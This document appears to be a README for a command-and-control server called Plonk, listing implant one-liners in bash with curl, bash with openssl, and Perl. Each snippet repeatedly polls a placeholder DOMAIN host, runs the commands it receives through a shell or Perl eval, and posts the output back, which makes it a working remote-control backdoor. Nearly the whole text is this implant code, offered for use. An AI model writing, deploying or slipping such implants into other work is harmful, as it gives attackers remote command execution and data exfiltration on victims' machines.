 Implant Ideas
=============
Below is a small collection of implant ideas.  They assume Plonk is listening
for queries to DOMAIN:443.  ImplantIDs are either random or hard-coded to
IMPLANTID.  There's 15 seconds between callbacks.

Shell / cURL
------------
```bash
ID="$RANDOM"; P="DOMAIN"; while :; do curl -s "https://$P/t/$ID" | /bin/sh 2>&1 | curl --data-binary @- -s "https://$P/o/$ID"; sleep 15; done
```

This is particularly noisy with `plonk -verbose`.

Shell / openssl
---------------
```bash
ID="$RANDOM" while :; do
        printf "GET /t/$ID HTTP/1.0\r\n\r\n" |
                openssl s_client -quiet -connect DOMAIN:443 2>/dev/null |
                tr -d '\r' | egrep -v '^$' | tail -n +5 |
                while read tline; do
                        O="$(echo "$tline" | (sh 2>&1))"
                        echo "POST /o/$ID HTTP/1.0\r\nContent-length: ${#O}\r\n\r\n$O" |
                                (openssl s_client -connect DOMAIN:443 >/dev/null 2>&1)
                done
        sleep 15
done
```

Perl
----
```perl
use LWP::Simple;for(;;){if(""eq($t=get("https://DOMAIN/t/IMPLANTID"))){sleep 15;next}else{LWP::UserAgent->new->request(HTTP::Request->new("POST","https://DOMAIN/o/IMPLANTID",[],Encode::encode("ascii",`$t 2>&1`)));}}
```
Or, to run Perl code and not shell input:
```perl
use LWP::Simple;for(;;){if(""eq($t=get("http://127.0.0.1:8080/t/kittens"))){sleep 4;next}else{LWP::UserAgent->new->request(HTTP::Request->new("POST","http://127.0.0.1:8080/o/kittens",[],Encode::encode("ascii",eval$t)));}}
```

